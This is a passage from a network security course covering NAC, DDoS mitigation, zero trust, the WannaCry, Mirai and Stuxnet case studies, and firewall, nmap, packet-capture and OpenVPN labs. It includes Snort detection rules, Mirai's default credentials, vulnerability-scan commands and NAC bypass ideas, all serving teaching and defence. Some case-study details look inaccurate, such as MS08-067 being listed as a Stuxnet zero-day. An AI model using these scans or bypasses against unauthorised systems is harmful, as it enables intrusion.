<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


NAC controls which devices can access the network based on policy compliance.

**NAC Flow:**

```
1. Device connects to network port or Wi-Fi
2. NAC checks device identity (MAC, certificate, credentials)
3. NAC checks compliance (OS patch level, AV running, disk encryption)
4. Decision:
   - Compliant: Full network access
   - Non-compliant: Quarantine VLAN (limited access)
   - Unknown: Registration VLAN (device enrollment)
5. Post-admission: Continuous monitoring (re-authentication)
```

**NAC Technologies:**

| Solution | Type | Description |
|----------|------|-------------|
| 802.1X | Standard | Port-based authentication (wired + wireless) |
| Cisco ISE | Enterprise | Profiling, posture, guest management |
| PacketFence | Open Source | NAC with captive portal |
| Forescout | Enterprise | Agentless, passive monitoring |

**PacketFence Basic Configuration:**

```yaml
# /usr/local/pf/conf/pf.conf
[general]
domain = example.com
dhcp = enabled

[network 192.168.1.0]
netmask = 255.255.255.0
gateway = 192.168.1.1

[registration]
require_dns = disabled

[vlan]
registration = 10
isolation = 20
normal = 1
```

### 8.2 NAC Edge Cases

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-2-nac-edge-cases-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-2-nac-edge-cases-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-2-nac-edge-cases-sticky.svg" target="_blank" rel="noopener">
  
</a>


- **Spoofed MAC address:** NAC that relies solely on MAC can be bypassed easily
- **Printers/IoT:** Devices that do not support 802.1X need MAB (MAC Authentication Bypass)
- **Voice VLAN:** IP phones need special handling (LLDP-MED, CDP for VLAN assignment)
- **Guest access:** Captive portal bypass via MAC spoofing or OAuth token abuse
- **High availability:** NAC failure can block ALL network access (fail-close vs fail-open)

---

## Section 9: DDoS Mitigation

### 9.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


A Distributed Denial of Service (DDoS) attack overwhelms a target with traffic from multiple sources, making it unavailable to legitimate users.

**Real-World Analogy:** A DDoS is like 10,000 people trying to enter a store with a single door simultaneously. No legitimate customer can get in.

### 9.2 DDoS Attack Types

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-2-ddos-attack-types-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-2-ddos-attack-types-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-2-ddos-attack-types-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Layer | Attack Type | Mechanism | Volume |
|-------|-------------|-----------|--------|
| L3/L4 | SYN Flood | Incomplete TCP handshakes | ~5-50 Gbps |
| L3/L4 | UDP Amplification | DNS/NTP/memcached amplification | ~50-500 Gbps |
| L3/L4 | ICMP Flood | Ping flood | ~1-20 Gbps |
| L3/L4 | ACK/PSH Flood | Stateful firewall exhaustion | ~10-100 Gbps |
| L7 | HTTP Flood | Legitimate-looking HTTP requests | ~10-100k RPS |
| L7 | Slowloris | Slow HTTP headers, hold connections | ~200-1000 connections |
| L7 | DNS Query Flood | Random subdomain lookups | ~1-10M qps |
| L7 | API Abuse | Expensive endpoint calls | ~1-50k RPS |

### 9.3 Mitigation Strategies

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-3-mitigation-strategies-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-3-mitigation-strategies-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-3-mitigation-strategies-sticky.svg" target="_blank" rel="noopener">
  
</a>


**1. Network-Level (volumetric):**

```bash
# Rate limiting with iptables
iptables -A INPUT -p tcp --dport 80 -m limit --limit 100/s --limit-burst 200 -j ACCEPT

# SYN cookie protection (kernel)
sysctl -w net.ipv4.tcp_syncookies=1
sysctl -w net.ipv4.tcp_max_syn_backlog=4096
sysctl -w net.core.somaxconn=4096

# Drop invalid packets
iptables -A INPUT -m state --state INVALID -j DROP

# Rate limit ICMP
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
```

**2. Application-Level:**

```yaml
# Nginx rate limiting
http {
    limit_req_zone $binary_remote_addr zone=api:10m rate=30r/s;
    
    server {
        location /api/ {
            limit_req zone=api burst=50 nodelay;
            proxy_pass http://backend;
        }
    }
}
```

**3. Anycast CDN Distribution:**

```
Instead of: 1 IP address at 1 data center
Use: Same IP advertised from 50+ data centers worldwide (BGP anycast)

Attack traffic is distributed across all locations
Each location handles its share
Legitimate users routed to closest available location
```

**4. Cloud-based DDoS Protection (AWS Shield, Cloudflare, Akamai):**

```
Always-on detection + on-demand mitigation:
- L3/L4 scrubbing at cloud edge
- L7 WAF rules to filter malicious requests
- Behavioral analysis to distinguish humans from bots
- Rate limiting per IP, per ASN, per country
- Challenge (JS challenge, CAPTCHA) for suspicious traffic
```

### 9.4 DDoS Mitigation Comparison Table

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-4-ddos-mitigation-comparison-table-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-4-ddos-mitigation-comparison-table-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/9-4-ddos-mitigation-comparison-table-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Strategy | Effectiveness | Cost | Complexity | False Positive Risk |
|----------|--------------|------|------------|-------------------|
| ISP-level blackhole | L3 only | Low | Low | Very high (blocks all traffic) |
| iptables rate limiting | L3/L4 low-volume | Free | Low | Medium |
| Reverse proxy (Nginx) | L7 moderate | Free | Medium | Medium |
| Hardware scrubber | L3-L7 high-volume | $$$$ | High | Low |
| Cloud DDoS protection | L3-L7 massive-scale | $$-$$$ | Low (DNS change) | Very low |
| Anycast distribution | L3-L7 distribution | $$$ | Medium | None |

---

## Section 10: Zero Trust Networking (ZTN)

### 10.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Zero Trust:** "Never trust, always verify." No entity is trusted by default, regardless of location (inside or outside the network).

**Core Principles (NIST SP 800-207):**
1. All data sources and computing services are considered resources
2. All communication is secured regardless of network location
3. Access to resources is granted on a per-session basis
4. Access is determined by dynamic policy (identity, device health, context)
5. Continuous monitoring and re-evaluation
6. Least privilege enforced

**Real-World Analogy:** Traditional security is like a castle: thick walls, moat, single drawbridge. Once inside, everyone is trusted. Zero Trust is like a modern embassy: multiple checkpoints, identity verification at every door, no "inside" privilege.

### 10.2 Zero Trust Architecture Components

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-2-zero-trust-architecture-components-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-2-zero-trust-architecture-components-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-2-zero-trust-architecture-components-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Component | Function | Example |
|-----------|----------|---------|
| Policy Engine | Makes access decisions | OpenPolicyAgent (OPA) |
| Policy Administrator | Enforces decisions, issues tokens | OAuth2/OIDC |
| Policy Enforcement Point | Executes allow/deny | Envoy proxy, Cloudflare Tunnel |
| Identity Provider | Authenticates users/ devices | Keycloak, Azure AD |
| Device Agent | Checks device posture | osquery, CrowdStrike |
| Data Plane | Encrypts all traffic | mTLS, WireGuard |

### 10.3 Zero Trust Implementation: BeyondCorp (Google)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-3-zero-trust-implementation-beyondcorp-google-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-3-zero-trust-implementation-beyondcorp-google-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-3-zero-trust-implementation-beyondcorp-google-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
User → Device Check → Identity Authentication → Context Evaluation → App Access
                        ↓                          ↓
                (OS patch, disk encrypted)    (geo, time, data sensitivity)

No VPN required:
  - All apps are internet-accessible but invisible
  - No internal IP ranges to protect
  - Access based on user + device + context, not network location
```

**Implementation Steps:**

```
Step 1: Identify protected resources (apps, data, APIs)
Step 2: Map transaction flows (who needs what)
Step 3: Deploy identity-aware proxy (Cloudflare Access, Envoy)
Step 4: Implement device trust (MDM, osquery)
Step 5: Define conditional access policies (user, device, context)
Step 6: Encrypt all traffic (mTLS between services)
Step 7: Monitor continuously (logs, anomaly detection)
```

### 10.4 Zero Trust Edge Cases

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-4-zero-trust-edge-cases-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-4-zero-trust-edge-cases-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/10-4-zero-trust-edge-cases-sticky.svg" target="_blank" rel="noopener">
  
</a>


- **Legacy applications:** Cannot support modern auth (Kerberos/NTLM only) → need bastion/jump host
- **Offline access:** Mobile users without connectivity need cached tokens with TTL limits
- **Privileged access:** Admins need JIT (Just-In-Time) access with approval workflows
- **Merger & acquisition:** Integrating another org's user base without full trust delegation
- **Non-human identities:** Service accounts, cron jobs, Kubernetes pods → need workload identity

---

## Section 11: Case Studies

### 11.1 WannaCry Ransomware (May 2017)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-1-wannacry-ransomware-may-2017-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-1-wannacry-ransomware-may-2017-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-1-wannacry-ransomware-may-2017-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Impact:**
- 230,000+ computers across 150 countries
- Total damages: $4+ billion
- NHS (UK National Health Service): 19,000+ appointments cancelled, 6 hospitals diverted

**Technical Breakdown:**

```
Infection Chain:
1. User receives phishing email with malicious attachment (or internal propagation)
2. Exploit: EternalBlue (MS17-010) → SMBv1 buffer overflow
   - Sends specially crafted SMB packet with malformed TRANS2 request
   - Overwrites kernel memory, executes shellcode
3. Payload: DoublePulsar backdoor installed
4. WannaCry ransomware delivered via DoublePulsar
5. Encryption: AES-128 per-file + RSA-2048 for key protection
6. Ransom note: $300 → $600 in Bitcoin within 3 days
7. Propagation: Scans LAN for SMBv1 hosts (random IP generation)
   - Uses EternalBlue to infect each new host
   - Each infected host becomes a propagation node
```

**Kill Switch:**
```
WannaCry checked if malwaredomain[.]com domain was registered.
If domain resolved → virus stopped.
Researcher Marcus Hutchins (@MalwareTechBlog) registered domain.
This activated the kill switch, halting global spread.
```

**Lessons Learned:**
- Patch management is critical (MS17-010 patch released 2 months before WannaCry)
- Block SMBv1 (deprecated protocol)
- Network segmentation limits blast radius (NHS flat network allowed exponential spread)
- Outbound internet access should be controlled for internal systems

**Snort Rule for EternalBlue:**

```bash
alert tcp $HOME_NET 445 -> $EXTERNAL_NET any
  (msg:"ET EXPLOIT EternalBlue SMBv1 Exploit Inbound";
   flow:from_server,established;
   content:"|ff|SMB|a0 00 00 00 00 00 00 00 00 00 00 00 00 00|";
   fast_pattern;
   content:"|00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00|";
   distance:0; within:32;
   reference:cve,2017-0144;
   classtype:attempted-admin;
   sid:1000004; rev:3;)
```

### 11.2 Mirai Botnet (October 2016)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-2-mirai-botnet-october-2016-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-2-mirai-botnet-october-2016-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-2-mirai-botnet-october-2016-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Impact:**
- 600,000+ IoT devices infected
- KrebsOnSecurity DDoS: 620 Gbps
- OVH DDoS: 1.1 Tbps (largest at the time)
- Dyn DNS DDoS: Major internet outage (Twitter, Netflix, Reddit, GitHub down)

**Technical Breakdown:**

```
Infection Cycle:
1. IoT device (DVR, camera, router) exposed on internet with default credentials
2. Mirai scanner finds device on port 23/2323 (telnet) or 80/8080 (HTTP)
3. Credential brute-force against 62 hardcoded username/password pairs:
   ("root":"root", "admin":"admin", "root":"xc3511", "support":"support", ...)
4. On successful login, downloads and executes bot binary
5. Bot connects to CNC server, reports ready for attack
6. Attack: SYN flood, UDP flood, HTTP flood, GRE flood, DNS water torture
7. Propagation: Bot continuously scans /8 and /16 address ranges

Attack Timeline (Krebs DDoS):
Sep 20, 2016: 620 Gbps DDoS against KrebsOnSecurity
Separately: 1.1 Tbps DDoS against OVH (French hosting provider)
Oct 21, 2016: Dyn DNS attack (1.2 Tbps) → major internet platforms affected
```

**Source Code Release:**
```
Author "Anna-senpai" released source code on HackForums (Sep 30, 2016).
Reason: "I made a lot of money, time to share."
Result: Dozens of Mirai variants emerged (Satori, Okiru, Masuta).
```

**Detection Signature:**

```bash
# Snort rule for Mirai scan behavior
alert tcp $EXTERNAL_NET any -> $HOME_NET 23
  (msg:"Mirai Telnet Scanning Activity";
   flags:S;
   threshold:type both, track by_src, count 10, seconds 5;
   reference:url,blog.cloudflare.com/mirai-botnet-ddos-attack;
   classtype:attempted-recon;
   sid:1000005; rev:2;)
```

**Lessons Learned:**
- IoT devices need mandatory password change on first login
- Default credentials are a systemic vulnerability
- Telnet must be disabled on all devices
- Network-level controls: block outbound telnet (port 23)
- DDoS mitigation requires cloud-scale filtering

### 11.3 Stuxnet (2010)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-3-stuxnet-2010-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-3-stuxnet-2010-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/11-3-stuxnet-2010-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Impact:**
- First known cyber weapon
- Destroyed ~1,000 IR-1 centrifuges at Natanz uranium enrichment facility, Iran
- Used 4 zero-day exploits (unprecedented)
- Breached air-gapped network via USB

**Technical Breakdown:**

```
Infection Chain:
Phase 1 → Initial Infection:
1. Stuxnet introduced via infected USB drive by social engineering
   (or compromised supply chain → contractor laptops)

Phase 2 → Propagation (internal network):
2. Exploits MS10-061 (Print Spooler) for local privilege escalation
3. Exploits MS08-067 (Server Service) for network propagation
4. Uses RPC to copy itself to other systems
5. Exploits MS10-046 (Shortcut .LNK) → auto-executes via USB icon

Phase 3 → Target discovery:
6. Looks for Siemens Step 7 software (used to program PLCs)
7. If not found: stays dormant, continues spreading
8. If found: extracts, decompresses, and installs rootkit components

Phase 4 → PLC sabotage:
9. Modifies PLC code via Step 7 software (using stolen Siemens certificates)
10. Two attack profiles:
    Attack A: Increase centrifuge rotor speed to 1,410 Hz (destructive vibration)
    Attack B: Reduce frequency for 50 minutes, then spike to 1,410 Hz
11. Records and replays normal sensor data (man-in-the-middle on PROFIBUS)
12. Operators see normal readings while centrifuges self-destruct
```

**Zero-Day Exploits Used:**

| CVE | Type | Description |
|-----|------|-------------|
| MS10-046 | LNK | Auto-execute via USB shortcut icon parsing |
| MS10-061 | EoP | Print Spooler privilege escalation |
| MS08-067 | RCE | Server Service buffer overflow (also used by Conficker) |
| CVE-2010-2772 | LPE | Siemens Step 7 hardcoded password vulnerability |

**Significance:**
- Nation-state cyber attack on critical infrastructure
- Proved air-gapped networks can be breached
- Changed international cybersecurity policy forever
- Led to creation of OT-specific security frameworks (NIST SP 800-82)

**Lessons Learned:**
- Air gaps are not absolute (USB vectors)
- Supply chain security is critical
- Industrial control systems need network segmentation from IT
- Software signing provides authenticity but not safety
- OT systems need anomaly detection for behavioral deviation

---

## Section 12: Practical Hands-On Lab

### 12.1 Lab Setup

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-1-lab-setup-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-1-lab-setup-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-1-lab-setup-sticky.svg" target="_blank" rel="noopener">
  
</a>


All labs below assume a Kali Linux or Ubuntu system. For Windows users, use WSL2 with Ubuntu.

### 12.2 iptables/nftables → Basic Firewall Implementation

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-2-iptables-nftables-basic-firewall-implementation-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-2-iptables-nftables-basic-firewall-implementation-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-2-iptables-nftables-basic-firewall-implementation-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Scenario:** Build a stateful firewall for a web server that allows SSH from management, HTTP/HTTPS to everyone, and blocks all other traffic.

```bash
#!/bin/bash
# basic-firewall.sh

# Flush existing rules
iptables -F
iptables -X
iptables -t nat -F
iptables -t mangle -F

# Set default policies
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Allow loopback
iptables -A INPUT -i lo -j ACCEPT

# Allow established connections
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# Allow SSH from management subnet only
iptables -A INPUT -p tcp -s 10.0.0.0/24 --dport 22 -j ACCEPT

# Allow HTTP and HTTPS
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# Allow ICMP (limited)
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 5 -j ACCEPT

# Log dropped packets
iptables -A INPUT -j LOG --log-prefix "FW-DROPPED: " --log-level 4

# Save rules
iptables-save > /etc/iptables/rules.v4
```

**nftables equivalent:**

```bash
#!/usr/bin/nft -f

flush ruleset

table inet filter {
    chain input {
        type filter hook input priority 0; policy drop;

        # Loopback
        iif lo accept

        # Established/related
        ct state {established, related} accept

        # SSH from management
        tcp dport ssh ip saddr 10.0.0.0/24 accept

        # Web services
        tcp dport {http, https} accept

        # ICMP rate limit
        icmp type echo-request limit rate 1/second accept

        # Log dropped
        log prefix "nft-drop: "
    }

    chain forward {
        type filter hook forward priority 0; policy drop;
    }
}
```

**Verification:**

```bash
# Test firewall rules
iptables -L -v -n

# Expected output:
# Chain INPUT (policy DROP 0 packets, 0 bytes)
#  pkts bytes target     prot opt in     out     source               destination
#    10   840 ACCEPT     all  --  lo     *       0.0.0.0/0            0.0.0.0/0
#   250 12500 ACCEPT     all  --  *      *       0.0.0.0/0            0.0.0.0/0            ctstate RELATED,ESTABLISHED
#     5   300 ACCEPT     tcp  --  *      *       10.0.0.0/24          0.0.0.0/0            tcp dpt:22
#  1500  90K ACCEPT     tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80
#  1200  72K ACCEPT     tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:443
#     3   252 ACCEPT     icmp --  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 8 limit: avg 1/sec burst 5
#     2   120 LOG        all  --  *      *       0.0.0.0/0            0.0.0.0/0            LOG flags 0 level 4 prefix "FW-DROPPED: "

# Test remote SSH (should work from 10.0.0.x)
ssh user@192.168.1.1

# Test remote SSH (should fail from other subnets)
# Connection times out or refused

# Test HTTP (should work)
curl -I http://192.168.1.1
# Expected: HTTP/1.1 200 OK
```

### 12.3 Nmap → Service Detection, OS Fingerprinting, NSE Scripts

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-3-nmap-service-detection-os-fingerprinting-nse-scripts-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-3-nmap-service-detection-os-fingerprinting-nse-scripts-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-3-nmap-service-detection-os-fingerprinting-nse-scripts-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# 1. Basic port scan
nmap -sS 192.168.1.1

# Expected output:
# Starting Nmap 7.94 ( https://nmap.org )
# Nmap scan report for 192.168.1.1
# Host is up (0.0012s latency).
# PORT     STATE    SERVICE
# 22/tcp   open     ssh
# 80/tcp   open     http
# 443/tcp  open     https

# 2. Service version detection
nmap -sV 192.168.1.1

# Expected:
# 22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6
# 80/tcp   open  http    Apache httpd 2.4.57
# 443/tcp  open  ssl     Apache httpd 2.4.57

# 3. OS fingerprinting
nmap -O 192.168.1.1

# Expected:
# OS details: Linux 5.15.0 - 6.2.0 (Linux 5.15 - 6.5)
# Network Distance: 1 hop
# Aggressive OS guesses: Linux 5.15.0-86-generic (95%)

# 4. NSE Vulnerability Scan
nmap --script vuln 192.168.1.1

# Expected (may show):
# PORT     STATE SERVICE
# 80/tcp   open  http
# | http-shellshock:
# |   VULNERABLE:
# |   Shellshock - CGI-based vulnerability
# |   State: VULNERABLE (Exploitable)
# |_  Description: ...

# 5. Comprehensive NSE script scan
nmap -sC -sV -O --script=http-headers,ssl-enum-ciphers 192.168.1.1

# Expected:
# | ssl-enum-ciphers:
# |   TLSv1.2:
# |     ciphers:
# |       TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384 (ecdh_x25519) - A
# |       TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256 (ecdh_x25519) - A
# |   TLSv1.3:
# |     ciphers:
# |       TLS_AKE_WITH_AES_256_GCM_SHA384 (ecdh_x25519) - A
```

**OS Fingerprinting Technique:**

Nmap sends a series of TCP probes to open and closed ports and analyzes:
- Initial TTL
- Window size
- TCP options (MSS, WS, SACK_PERM, Timestamp)
- IP ID sequence patterns
- DF (Don't Fragment) bit behavior

Example:
```
Linux: TTL=64, Window=5840, MSS=1460, WS=7, TSval freq=100Hz
Windows: TTL=128, Window=65535, MSS=1460, WS=8, TSval freq=100ms
Cisco IOS: TTL=255, Window=4128, No TS, No WS
```

### 12.4 Wireshark/tshark → Deep Packet Inspection

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-4-wireshark-tshark-deep-packet-inspection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-4-wireshark-tshark-deep-packet-inspection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-4-wireshark-tshark-deep-packet-inspection-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# 1. Capture HTTP traffic on port 80
tshark -i eth0 -f "tcp port 80" -c 100

# Expected output (abbreviated):
# 1   0.000000  192.168.1.100 → 93.184.216.34  TCP 74 52342 → 80 [SYN] Seq=0
# 2   0.042000  93.184.216.34 → 192.168.1.100 TCP 74 80 → 52342 [SYN, ACK] Seq=0 Ack=1
# 3   0.042100  192.168.1.100 → 93.184.216.34  TCP 66 52342 → 80 [ACK] Seq=1 Ack=1
# 4   0.042500  192.168.1.100 → 93.184.216.34  HTTP 145 GET / HTTP/1.1
# 5   0.085000  93.184.216.34 → 192.168.1.100  TCP 66 80 → 52342 [ACK] Seq=1 Ack=80

# 2. Follow TCP stream
tshark -i eth0 -z follow,tcp,ascii,0

# 3. Display filters for common attacks
tshark -r capture.pcap -Y "http.request.uri contains \"union\" or http.request.uri contains \"select\""

# 4. Extract HTTP objects
tshark -r capture.pcap --export-objects "http,/tmp/extracted"

# 5. Detect ARP spoofing
tshark -r capture.pcap -Y "arp.duplicate-address-detected"

# 6. Analyze TLS handshake
tshark -r capture.pcap -Y "tls.handshake.type == 1" -T fields -e tls.handshake.extensions_server_name

# Expected: example.com
```

**Wirehsark GUI Workflow for Attack Investigation:**

```
1. Open capture file: File → Open
2. Apply filter: http.request or tls.handshake.type == 1
3. Follow TCP stream on suspicious connection: Right-click → Follow → TCP Stream
4. Export objects: File → Export Objects → HTTP/SMB
5. Statistics → Protocol Hierarchy (understand traffic composition)
6. Statistics → Conversations (top talkers)
7. Analyze → Expert Information (automatic anomaly detection)
```

### 12.5 tcpdump → Packet Capture and Analysis

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-5-tcpdump-packet-capture-and-analysis-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-5-tcpdump-packet-capture-and-analysis-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-5-tcpdump-packet-capture-and-analysis-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# 1. Capture all traffic on interface
tcpdump -i eth0

# 2. Capture with count limit
tcpdump -i eth0 -c 1000

# 3. Capture to file (for later analysis)
tcpdump -i eth0 -w capture.pcap -s 0

# 4. Read from file
tcpdump -r capture.pcap

# 5. Filter by host
tcpdump -i eth0 host 192.168.1.100

# 6. Filter by port
tcpdump -i eth0 port 80 or port 443

# 7. Capture TCP SYN packets only
tcpdump -i eth0 "tcp[tcpflags] & (tcp-syn) != 0"

# 8. Capture DNS queries
tcpdump -i eth0 udp port 53

# 9. Verbose output with hex dump
tcpdump -i eth0 -X -n port 80

# Example output:
# 12:34:56.789012 IP 192.168.1.100.52342 > 93.184.216.34.80: Flags [S], seq 1234567890, ...
#         0x0000: 4500 003c 1c46 4000 4006 a4b6 c0a8 0164  E..<.F@.@......d
#         0x0010: 5db8 d822 cc66 0050 4996 0f84 0000 0000  ]..".f.PI......

# 10. Monitor for SYN flood
tcpdump -i eth0 -n "tcp[tcpflags] & (tcp-syn) != 0 and tcp[tcpflags] & (tcp-ack) == 0" | head -100
```

**SYN Flood Detection Dry Run:**

```bash
# Monitor SYN packets without ACK
tcpdump -i eth0 -n "tcp[13] & 2 != 0 and tcp[13] & 16 == 0"

# Expected output (SYN flood indicators):
# 12:00:01.000 IP 192.168.1.100.10000 > 10.0.0.1.80: Flags [S], seq 1000
# 12:00:01.001 IP 192.168.1.101.10001 > 10.0.0.1.80: Flags [S], seq 2000
# 12:00:01.002 IP 192.168.1.102.10002 > 10.0.0.1.80: Flags [S], seq 3000
# 12:00:01.003 IP 10.0.0.1.10003 > 10.0.0.1.80: Flags [S], seq 4000  (spoofed source)
# 12:00:01.004 IP 192.168.1.103.10004 > 10.0.0.1.80: Flags [S], seq 5000
# ...
# 1000+ SYN packets per second, no ACKs returning → SYN flood confirmed
```

### 12.6 OpenVPN Setup

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-6-openvpn-setup-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-6-openvpn-setup-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-6-openvpn-setup-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install OpenVPN and Easy-RSA
apt update
apt install openvpn easy-rsa

# Set up PKI
make-cadir ~/openvpn-ca
cd ~/openvpn-ca

# Initialize PKI
./easyrsa init-pki
./easyrsa build-ca nopass

# Generate server certificate
./easyrsa gen-req server nopass
./easyrsa sign-req server server

# Generate Diffie-Hellman parameters
./easyrsa gen-dh

# Generate TLS crypt key
openvpn --genkey --secret ta.key

# Generate client certificate
./easyrsa gen-req client1 nopass
./easyrsa sign-req client client1

# Server configuration
cat > /etc/openvpn/server.conf << 'EOF'
port 1194
proto udp
dev tun
ca /etc/openvpn/ca.crt
cert /etc/openvpn/server.crt
key /etc/openvpn/server.key
dh /etc/openvpn/dh.pem
tls-auth /etc/openvpn/ta.key 0
server 10.8.0.0 255.255.255.0
ifconfig-pool-persist ipp.txt
push "redirect-gateway def1 bypass-dhcp"
push "dhcp-option DNS 208.67.222.222"
push "dhcp-option DNS 208.67.220.220"
keepalive 10 120
cipher AES-256-GCM
auth SHA256
user nobody
group nogroup
persist-key
persist-tun
status openvpn-status.log
log-append /var/log/openvpn.log
verb 3
explicit-exit-notify 1
EOF

# Enable IP forwarding
sysctl -w net.ipv4.ip_forward=1

# Start OpenVPN
systemctl start openvpn@server
systemctl enable openvpn@server

# Verify connection
journalctl -u openvpn@server

# Expected output:
# ovpn-server[1234]: MULTI: multi_create_instance called
# ovpn-server[1234]: 203.0.113.5:56789 Re-using SSL/TLS context
# ovpn-server[1234]: 203.0.113.5:56789 [client1] Peer Connection Initiated with [AF_INET]203.0.113.5:56789
